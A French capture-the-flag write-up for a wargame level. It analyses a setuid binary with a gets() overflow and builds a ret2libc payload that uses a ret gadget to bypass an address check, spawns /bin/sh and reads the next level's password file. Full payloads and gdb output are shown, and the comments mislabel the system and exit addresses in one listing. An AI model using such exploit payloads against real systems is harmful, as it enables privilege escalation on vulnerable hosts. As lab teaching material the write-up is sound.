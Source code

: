 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```bash
$ ./level2
(waiting for input)
$ ./level2
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01) et en extrait une version probable du code :

```c
void p()
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int check = buffer[20];
    if ((check & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", check);
        exit(1);
    }

    puts(buffer);
    strdup(buffer);
}

int main()
{
    p();
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

Tout comme le précédent niveau, il s'agirait la de ré-écrire l'adresse de retour avec un exploit type `Ret2Libc`. Ici, le code ne lance pas shell, donc à l'inverse du précédent niveau, je vais devoir utiliser la véritable `Ret2Libc`, qui consiste à aller chercher l'adresse de `system()`, (éventuellement d'`exit()` pour que le programme termine correctement) et celle de `/bin/sh` dans la `libc`.

L'exécution sera la même que pour `level1`, mais il faudra écrire ces 3 adresses dans le payload.

Pour trouver les trois adresses, ainsi que la taille de la stack, j'utilise `gdb` :

```h
$ gdb ./level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.

(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave <---------------------- break ici
   0x0804853e <+106>:   ret
End of assembler dump.

(gdb) b *p+105
Breakpoint 1 at 0x804853d

(gdb) r
Starting program: /home/user/level2/level2
dab
dab

Breakpoint 1, 0x0804853d in p ()

(gdb) info registers
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...

(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

(gdb) info proc mappings
process 9921
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
    0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
    0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
    0x804a000  0x806b000    0x21000        0x0 [heap]
    0xb7e2b000 0xb7e2c000     0x1000        0x0
    0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so <--- libc
    0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so <--- end
    0xb7fd2000 0xb7fd5000     0x3000        0x0
    0xb7fd9000 0xb7fdd000     0x4000        0x0
    0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
    0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
    0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
    0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je peux commencer par calculer la taille de la stack comme au level précédent :

`0xbffff728 - 0xbffff6c0 = 0x68 = 104` bytes

Puis, soustraire par rapport à la position du buffer dans la stack (ici `0x4c(%ebp)`) soit

`0x68 - 0x4c = 0x1C = 28` bytes, soit : `104 - 28 = 76` bytes afin d'atteindre `ebp`.

J'ajoute 4 bytes pour écrire sur la `return address` de `main()`, soit 80 bytes.
Mon payload échouerait si je le construisais de la même manière qu'au `level1` car la première adresse après l'overflow est utilisé par ce bout de code :

```c
    int check = buffer[20];
    if ((check & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", check);
        exit(1);
    }
```

Afin de s'assurer qu'elle ne commence pas par le bit `0xb` (au travers d'une opération `AND`), or, mon payload ressemblerait à :

```h
"\x90" * 80 + "\xb7\xe6\xb0\x60" + "\xb7\xe6\xb0\x60" + "\xb7\xf8\xcc\x58"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer        adresse de system()  adresse d'exit()     adresse de "/bin/sh"
```

Ce qui serait problématique puisque la première adresse, qui est la nouvelle adresse de retour, commence par le bit `0xb`.

Je dois donc ajouter une étape supplémentaire dans le payload afin que le payload ne se fasse pas "attraper" par cette condition.

Une possibilité serait par exemple d'utiliser l'adresse d'un appel `ret`, par exemple celui de `p()`, puisqu'il cherchera ensuite la `return address`, qui sera la valeur suivante sur la stack, qui sera donc la suite du payload (et donc mon appel vers `system()`).

Notez que l'adresse de `/bin/sh` est mise en dernière dans le payload car c'est la manière dont les arguments de fonctions sont placées dans la stack (tout en haut de celle-ci).

Je cherche donc l'adresse de l'instruction de retour de `p()` :

```h
(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret <------------------------ ici
```

Et je l'ajoute donc à mon payload, que je construit tel quel :

```python
"\x90" * 80
+ "\x08\x04\x85\x3e" <- return address of p, [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60" <- return address of system
+ "\x08\x04\x83\xd0" <- return address of exit
+ "\xb7\xf8\xcc\x58" <- return address of "bin/sh"
```

Et tente de l'utiliser sur le binaire :

```bash
$ (python -c 'print("\x90" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of exit
+ "\x08\x04\x83\xd0"[::-1] # <- return address of system
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

